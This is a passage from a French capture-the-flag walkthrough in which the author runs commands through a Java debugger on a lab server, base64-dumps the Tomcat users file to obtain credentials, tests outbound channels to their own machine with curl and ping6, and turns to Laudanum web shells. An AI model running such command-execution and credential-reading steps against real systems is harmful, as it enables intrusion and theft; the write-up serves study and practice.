 ```plain
print new java.lang.String(new java.io.BufferedReader(new java.io.InputStreamReader(new java.lang.Runtime().exec("id").getInputStream())).readLine())
```

Avec un peu de jugeote on peu utiliser la commande base64 pour récupérer le contenu d'un fichier encodé en une seule ligne :  

```plain
base64 -w 0 /etc/tomcat/tomcat-users.xml
```

Le base64 obtenu et décodé permet d'obtenir les credentials du *Tomcat* : *sl33py* / *Gu3SSmYStR0NgPa$sw0rD!*.  

Avec des identifiants j'aurais pu enchaîner directement sur le Tomcat mis en place plus tôt mais je voulais profiter un peu plus de cet accès un peu particulier, voir si je pouvais m'offrir un accès sur le serveur malgré le firewall.  

Le serveur n'a pas de netcat, pas de wget, pas de tftp en revanche il y a curl et un python2...  

Un curl sortant ne donne rien même sur le port 80... Le trafic sortant est donc aussi filtré :(  

UDP peut-être ? J'ai écouté sur le port UDP 69 de ma machine et tenté une sortie avec cURL et son support de TFTP (*curl tftp://mon\_ip/nawak*)... mais toujours rien.  

IPv6 ? Récupérer l'output de *ip -6 addr* est compliqué à cause du fait qu'on ne puisse pas placer un pipe ou une redirection dans le jdb :(   

Heureusement si je lance un *ping6 -c 1 mon\_adresse\_ipv6* j'obtiens bien une ligne dans un *tshark* préalablement lancé (*sudo tshark -i any icmp6*) :   

```plain
30 51.222553564 2a01:dead:beef:cafe:babe:0ff:1ce:fc3 → 2a01:decaf:f00d:face:bad:a55:c0f3:f26c ICMPv6 120 Echo (ping) request id=0x074e, seq=1, hop limit=64
```

Je relance un scan Nmap en IPv6, pas de pépites mais au moins on a le serveur Tomcat sans relais :  

```plain
PORT     STATE SERVICE
8009/tcp open  ajp13
8080/tcp open  http-proxy
```

Bons baisers de Tomcat
----------------------

Les identifiants fonctionnent comme on pouvait s'y attendre, malheureusement... c'est le module MSF qui ne parvient pas à nous obtenir quelque chose... Même en testant différentes *targets* (Linux ou Java) et payloads :'(   

J'ai décidé de me remettre à une exploitation plus manuelle comme expliquée [sur ce blog](http://blog.opensecurityresearch.com/2012/09/manually-exploiting-tomcat-manager.html).  

Il s'agit d'utiliser l'un des shells du projet *Laudanum* :  

> Laudanum is a collection of injectable files, designed to be used in a pentest when SQL injection flaws are found and are in multiple languages for different environments.  
> 
> They provide functionality such as shell, DNS query, LDAP retrieval and others.

